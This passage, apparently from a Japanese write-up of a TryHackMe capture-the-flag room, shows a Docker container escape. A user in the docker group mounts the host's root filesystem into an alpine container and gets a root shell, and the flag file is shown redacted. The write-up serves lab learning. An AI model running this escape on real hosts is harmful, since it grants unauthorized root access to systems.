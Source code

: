 イメージ一覧

```sh
michael@the-marketplace:~$ docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        4 years ago         2.16GB
nginx                        latest              4bb46517cac3        4 years ago         133MB
node                         lts-buster          9c4cc2688584        4 years ago         886MB
mysql                        latest              0d64f46acfd1        4 years ago         544MB
alpine                       latest              a24bb4013296        5 years ago         5.57MB
```

エクスプロイト

```sh
michael@the-marketplace:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

エスケープ成功

```sh
# ls -al /root
total 28
drwx------  4 root root 4096 Aug 23  2020 .
drwxr-xr-x 23 root root 4096 Aug 23  2020 ..
lrwxrwxrwx  1 root root    9 Aug 23  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Aug 23  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Aug 23  2020 .ssh
-r--------  1 root root   38 Aug 23  2020 root.txt
# cat /root/root.txt
THM{.................................}
```

## 振り返り

- XSS、SQLi、ワイルドカード不正利用による権限昇格、Docker エスケープと、多彩な課題が盛り込まれていて楽しかった。良い復習。
